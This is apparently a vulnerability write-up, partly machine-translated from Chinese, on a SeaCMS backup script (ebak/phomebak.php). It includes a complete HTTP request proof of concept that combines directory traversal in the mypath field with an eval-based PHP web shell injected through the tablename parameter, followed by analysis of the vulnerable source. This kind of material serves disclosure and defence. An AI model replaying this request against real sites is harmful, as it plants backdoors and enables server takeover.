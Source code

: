 ### 13.1 ebak/phomebak.php存在任意位置创建目录，并写入php木马

13.1 ebak/phomebak.php exists at any location to create directories and write php Trojans Vulnerability flow First access /ebak/ChangeDb.php Come to the following interface

![image-20240821104415493](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821104415493.png)

Click on the bottom to start backup capture

**POC**

```java
POST /p8qca/ebak/phomebak.php HTTP/1.1
Host: seacms:8181
Content-Length: 256
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://seacms:8181
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/p8qca/ebak/ChangeTable.php?mydbname=seacms&keyboard=sea&act=b
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; XDEBUG_SESSION=PHPSTORM; PHPSESSID=supsf31jdepfl81lcelmmp0um5
Connection: keep-alive

phome=DoEbak&mydbname=seacms&baktype=0&filesize=1024&bakline=1000&autoauf=1&bakstru=1&dbchar=utf8&bakdatatype=1&mypath=..%2F..%2F..%2F..%2F..%2Fabcd&insertf=replace&waitbaktime=0&readme=&tablename%5B%5D=";eval($_POST['a']);/*&Submit=%E5%BC%80%E5%A7%8B%E5%A4%87%E4%BB%BD
```

Modify mypath=... /.. /.. /.. /.. /abcd Is the name of the created directory, and can implement directory traversal In addition, the directory will automatically generate php files, and the content can be written to the Trojan through special concatenation After sending the POC

![image-20240821150320832](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821150320832.png)

Successfully traversed the directory and created the directory 

Directory also successfully created our Trojan file

![image-20240821151312163](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821151312163.png)

Code part analysis

The following code exists in phomebak.php

```java
if($phome=="DoEbak")//初使化备份表
{
	Ebak_DoEbak($_POST);
}
```

Our phome parameter can be controlled when entering the Ebak_DoEbak method for DoEbak

in this method there is

```java
if(empty($add['mypath']))
	{
		$add['mypath']=$dbname."_".date("YmdHis");
	}
    DoMkdir($bakpath."/".$add['mypath']);
```

没有对我们的mypath进行目录穿越过滤，直接创建目录

```java
$string="<?php 
	\$b_table=\"".$b_table."\";
	".$d_table."
	\$b_baktype=".$add['baktype'].";
	\$b_filesize=".$add['filesize'].";
	\$b_bakline=".$add['bakline'].";
	\$b_autoauf=".$add['autoauf'].";
	\$b_dbname=\"".$dbname."\";
	\$b_stru=".$bakstru.";
	\$b_strufour=".$bakstrufour.";
	\$b_dbchar=\"".addslashes($add['dbchar'])."\";
	\$b_beover=".$beover.";
	\$b_insertf=\"".addslashes($insertf)."\";
	\$b_autofield=\",".addslashes($add['autofield']).",\";
	\$b_bakdatatype=".$bakdatatype.";
	 ?>";
	$cfile=$bakpath."/".$add['mypath']."/config.php";
	WriteFiletext_n($cfile,$string);
```

You can see that we directly concatenate our input b_table, which is our tablename, and write $cfile=$bakpath."/".$add['mypath']."/config.php"; That is, the config.php file Can php Trojan horse
